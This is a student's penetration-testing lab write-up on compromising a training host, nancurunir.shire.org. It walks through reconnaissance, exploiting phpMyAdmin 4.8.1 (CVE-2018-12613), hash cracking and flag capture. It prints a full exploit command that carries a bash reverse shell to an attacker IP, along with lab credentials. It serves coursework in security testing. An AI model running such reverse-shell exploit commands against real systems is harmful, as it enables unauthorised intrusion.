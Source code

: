 # Lab 10.2 - Exploiting nancurunir

Target: nancurunir.shire.org

## Deliverable 1. Provide the Following Information to include commands and screenshots. Provide all this information within a Pentest Report for this target. Come up with your own Title Page and Pen Test Organization (A Tolkien theme is preferred). Here's a [sample](https://docs.google.com/document/d/1ZmKB5mBZOSlk4Sg4MmsM1skxpTIHJ4ZwIevfPX3dlPk/edit?usp=sharing) prepared by a student on the cupcake target.

* Target IP Address

  using the nslookup command to see the ip address:

  `sudo nslookup nancurunir.shire.org 10.0.5.22`

  ![image-20221121112119094](./images/1.png)

* Open Ports

  `sudo nmap 10.0.5.28 -sV`

  ![image-20221121112519970](./images/2.png)

* Discovered Vulnerabilities

  I ran a dirbuster to find the hidden directories, and I found a phpmyadmin:

  ![image-20221121122343314](./images/3.png)

* How you achieved a foothold

  The Version of the phpmyadmin is 4.8.1 which vulnerable to remote code execution. so I installed the python code and execute it and I got in.

`python 50457.py 10.0.5.28 80 /phpmyadmin gandalf shallnotpass "bash -c 'exec bash -i &>/dev/tcp/10.0.99.47/4449 <&1'"`

![image-20221121184821973](./images/4.png)

![image-20221121184935672](./images/4-1.png)

* How you achieved root/Administrative level compromise

  First I went to the Users and I went to root. 

  ![image-20221121212952684](./images/7-1.png)

  ![image-20221121213024710](./images/7-2.png)

  after that I took the hash to crack to find the root password. 

  ![image-20221121205154452](./images/5.png)

  ![image-20221121205528405](./images/5-1.png)

* User Flag

  I went to gandalf home and I saw the User Flag.

  ![image-20221121210459189](./images/6.png)

* Root Flag

  I went to root home and I saw the Root Flag.

  ![image-20221121210819711](./images/7.png)

* How might the vulnerabilities be mitigated by the system administrator?

  This is a big problem that we need to be carful and making sure that our system is up to date. CVE-2018-12613, phpMyAdmin 4.8.1 - Remote Code Execution (RCE). https://www.exploit-db.com/exploits/50457

  

Hints, if needed

[Hint 1](https://docs.google.com/document/d/1Fx2K8-aDAXz5evjStXBMwYdQBT1-MUm2K1zh4dReVJs/edit?usp=sharing) 

[Hint 2](https://docs.google.com/document/d/16eLLqMrkd3c7KKpOqEIrT3iuCNEOomaaS_hZCX952jM/edit?usp=sharing)

[Hint 3](https://docs.google.com/document/d/1gChEun49LOog_Aa25TzbqR78gPowlmo7ok-0I8henkw/edit?usp=sharing)

## Deliverable 2. Tech Journal and Reflection. If there are technical elements covered in your pentest report that aren't already in your journal, make sure to add them to your journal. Provide a Link



Some problems that I had was getting the password for the user gandalf. At the end I had to see the hint to get the password.   Other than that I had fun figuring out the password. 

PenTest Report: https://docs.google.com/document/d/1HjvwKGNkimoq-BRc_qqTNDE_oca5qSsMOJwtZOTS1Cw/edit?usp=sharing

